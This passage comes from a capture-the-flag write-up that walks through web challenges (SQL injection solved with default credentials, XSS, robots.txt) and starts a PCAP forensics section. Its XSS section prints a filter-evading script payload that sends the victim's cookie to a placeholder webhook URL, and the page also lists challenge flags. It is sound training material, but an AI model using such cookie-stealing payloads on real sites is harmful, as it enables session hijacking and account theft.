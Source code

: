 > `flag{1ns3cur3_0bj3c+_r3f3rnces_are_dank}`

### 0x45 Sésame, ouvre-toi

1. SQLI vuln
2. Post based
3. `"` syntax
4. SQLmap hard, csrf token impact?
5. Nope default creds

```
admin
password
```

> `flag{didnt_save_mybad}`

### 0x47 simplexss

A dead giveaway that a challenge is an XSS based one is if the web application suggests that some 'other person' will look at a page that you can control the contents of to some extent. This is because XSS happens in the browser when javascript makes its way into the DOM context, and is subsequently rendered (processed), which means someone else (or a bot) needs to look at the page you inject with your XSS payload in order to trigger it from their perspective.

In this case the page we control has a simple XSS filter on the word `script` so we can simply switch the case to caps since all HTML elements are case insensitive in order to evade the filter.

Since we cannot 'see' the clients web page we are attacking we need a way to capture their cookie and send it some place we can see. This is called an out of band approach. A great way to do this for XSS is with a webhook website like [pipedream](https://pipedream.net) or requestbin which gives you an ephemeral public url that you can place in your payload, which when triggered makes a request to the url with the targets cookie as a parameter.

A sample payload bellow:

```javascript
<SCRIPT>fetch(`https://<ur-subdomain>.m.pipedream.net?cookie=${encodeURIComponent(document.cookie)}`)</ScRiPt>
```

> `flag{S00_XSS_1snt_that_h@rd}`

### 0x50 door

1. Looks like xss because of the message that a bot will look at the page after submitting the form
2. Can get payload into DOM but no cookies to grab
3. Check robots.txt for an internal page to grab instead of the cookie, instead find the flag

> `flag{SW4nky_r0b0ts_txt_w0w_who_wouldve_guessed}`

## Forensics

### HTTP OK

This was a typical PCAP forensics challenge which required you to search body of packets in the supplied packet capture file. Initially before I even open wireshark for challenges like this I like to use an [online packet analyser](https://apackets.com/) which can often reveal information that would take a long time to dig through in wireshark. Such things include:

